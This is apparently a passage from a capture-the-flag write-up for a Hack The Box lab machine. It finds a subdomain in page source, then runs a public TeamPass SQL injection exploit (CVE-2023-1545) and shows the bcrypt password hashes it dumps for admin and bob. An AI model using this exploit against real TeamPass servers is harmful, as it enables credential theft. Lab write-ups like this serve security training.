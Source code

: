 This is port 8080 web service
![[images/Screenshot 2025-04-19 at 11.06.04 PM.png]]
From this page source code, I found something interesting here
```
<link rel="shortcut icon" type="image/png" href="[http://vault.checker.htb/favicon.ico](view-source:http://vault.checker.htb/favicon.ico)"/>
</head>
```
There is another sub-domain here `vault.checker.htb`
But when we want to check what is going on in this subdomain, it would redirect to `http://checker.htb/login`
![](images/Pasted%20image%2020250420091030.png)

So let's continue to check the vulnerability of this port 8080

# CVE-2023-1545
I want to check the service `Teampass` from the exploit-db
Then we found `TeamPass 3.0.0.21 - SQL Injection` from exploit-db, we can also run the exploit script here.
```
python3 sql_injection.py http://checker.htb:8080/
2025-04-20 09:12:47,926 - INFO - Encontrados 2 usuários no sistema
2025-04-20 09:12:48,216 - INFO - Credenciais obtidas para: admin
2025-04-20 09:12:48,506 - INFO - Credenciais obtidas para: bob

Credenciais encontradas:
admin: $2y$10$lKCae0EIUNj6f96ZnLqnC.LbWqrBQCT1LuHEFht6PmE4yH75rpWya
bob: $2y$10$yMypIj1keU.VAqBI692f..XXn0vfyBL7C1EhOs35G59NxmtpJ/tiy
```

